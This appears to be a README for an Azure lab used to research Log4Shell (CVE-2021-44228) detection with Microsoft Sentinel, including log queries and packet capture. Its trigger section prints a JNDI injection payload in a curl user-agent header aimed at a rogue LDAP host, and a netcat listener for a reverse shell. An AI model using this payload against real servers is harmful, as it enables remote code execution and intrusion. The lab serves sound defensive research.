

# Log4Shell Research Lab Environment

[](https://portal.azure.com/#create/Microsoft.Template/uri/https%3A%2F%2Fraw.githubusercontent.com%2FOTRF%2FMicrosoft-Sentinel2Go%2Fmaster%2Fgrocery-list%2FLinux%2Fdemos%2FCVE-2021-44228-Log4Shell%2Fazuredeploy.json)

## Metadata

* **Author:** [Roberto Rodriguez (@Cyb3rWard0g)](https://twitter.com/Cyb3rWard0g)
* **Deployment time:** 5-10 mins

## Research Notes

https://github.com/Cyb3rWard0g/log4jshell-lab

## Data Samples

https://aka.ms/Log4ShellDataSamples
## Grocery Items

* Microsoft Sentinel
    * Would you like to Bring-Your-Own Microsoft Sentinel?.
    * If so, set the `workspaceId` and `workspaceKey` parameters of your own workspace.
* 2 Linux VMs: `Ubuntu 18.04.6 LTS` - Kernel release: `5.4.0-1059-azure `
    * `UBUNTU5`
        * [Log Analytics Agent for Linux](https://github.com/microsoft/OMS-Agent-for-Linux) installed
        * It connects to the Microsoft Log Analytics workspace defined in the template.
        * [Syslog Data Connector](https://docs.microsoft.com/en-us/azure/sentinel/connect-syslog) enabled
        * Linux Syslog Facilities collected
            * `user`
        * [Sysmon for Linux installed](https://github.com/Sysinternals/SysmonForLinux) (Optional)
            * [Sysmon for Linux installer](https://github.com/OTRF/Blacksmith/blob/master/resources/scripts/bash/Install-Sysmon-For-Linux.sh)
            * [Sysmon configuration](https://github.com/OTRF/Blacksmith/blob/master/resources/configs/sysmon/linux/sysmon.xml)
        * [OMS Auditd Plugin](https://github.com/microsoft/OMS-Auditd-Plugin)(Optional)
        * [Tomcat v8.5.3](https://tomcat.apache.org/)
        * Java Libraries:
            * [javax.servlet-api v4.0.1](https://mvnrepository.com/artifact/javax.servlet/javax.servlet-api/4.0.1)
            * log4j-core ([2.14](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-core/2.14.0), [2.15](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-core/2.15.0), [2.16](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-core/2.16.0))
            * log4j-api ([2.14](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-api/2.14.0), [2.15](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-api/2.15.0), [2.16](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-api/2.16.0))
    * `UBUNTU6`
        * [Rogue JNDI](https://github.com/Cyb3rWard0g/log4jshell-lab/tree/main/attacker/rogue-jndi)

## Validate Environment

### UBUNTU5
SSH to `UBUNTU5` box and make sure the `Tomcat` service is running:

```bash
service tomcat status
```
Depending on what you installed to generate events (`Sysmon` or `OMS Auditd Plugin`):

**Sysmon**

You can check if Sysmon is running.

```
service sysmon status
```

**OMS Auditd**

You can check that the AUOMS service is running and the AUOMS config is active

```
service auoms status

cat /etc/audisp/plugins.d/auoms.conf
```

### UBUNTU6
SSH to `UBUNTU6` box to make sure the `Rogue JNDI` docker container is running:

```bash
docker ps

docker logs --follow rogue-jndi
```

## Trigger CVE-2021-44228 (Example)

* In this scenario, we simulate an adversary that is already on the `VICTIM` server (running the vulnerable application).
    * Another scenario would be an adversary interacting with the `VICTIM` server from an endpoint outside of the organization's network.
* The attacker uses the log4j [CVE-2021-44228](https://logging.apache.org/log4j/2.x/security.html#CVE-2021-44228) RCE vulnerability to get a reverse shell via netcat.

### UBUNTU6

Start a netcat listener on port `443`:

```
nc -lvnp 443
```

### UBUNTU5

Vulnerable applications were compiled during the deployment of the victim Azure VM.

```bash
curl -X GET -H 'user-agent: ${jndi:ldap://192.168.2.6:1389/o=reference}' 127.0.0.1:8080/Log4j-2.14.0-SNAPSHOT/api
```

## Query Microsoft Sentinel

### Sysmon Logs

```
Syslog 
| where ProcessName == 'sysmon'
| extend EventID = parse_xml(SyslogMessage).Event.System.EventID 
| extend EventData = parse_xml(SyslogMessage).Event.EventData.Data 
| mv-expand bagexpansion=array EventData 
| evaluate bag_unpack(EventData) 
| extend Key=tostring(['@Name']), Value=['#text'] 
| evaluate pivot( 
    Key, any(Value), TimeGenerated, TenantId, SourceSystem, 
    EventID, Computer, Facility, SeverityLevel, HostIP, MG, Type, _ResourceId 
)
```

### OMS Auditd

```
let execve=(){
  Syslog
  | where SyslogMessage has "AUOMS_EXECVE"
  | parse SyslogMessage with "type=" EventType " audit(" * "): " EventData
  | where EventType =~ "AUOMS_EXECVE"
  | project TimeGenerated, EventType, Computer, EventData
  | extend EventData = trim_end('containerid=',EventData)
  | parse kind=regex EventData with * "success=" success " exit=" * "ppid=" ppid "pid=" pid
  "audit_user=" audit_user "auid=" * "user=" user " uid=" uid " group=" * "comm=\"" comm "\" exe=\"" exe
  "\"" * "cwd=\"" cwd "\" name=\"" name "\" (inode|nametype)=" * "(proctitle|cmdline)=" cmdline
  | extend cmdline = trim_end('redactors=.*',cmdline)
};
execve
```

## Additional Features

### Collect Network Traffic via TCPDump

on `UBUNTU5`, open a new ssh session and run the following commands before running the basic test:

```bash
tcpdump -i eth0 -w log4jShell.pcap host 192.168.2.5 and host 192.168.2.6
```

You can then copy the PCAP from your Azure VM to your local endpoint:

```bash
scp user@x.x.x.x:/home/user/log4jShell.pcap C:\Users\YOU\Downloads\
```

Open the PCAP in [Wireshark](https://www.wireshark.org/):




## References
* https://github.com/Cyb3rWard0g/log4jshell-lab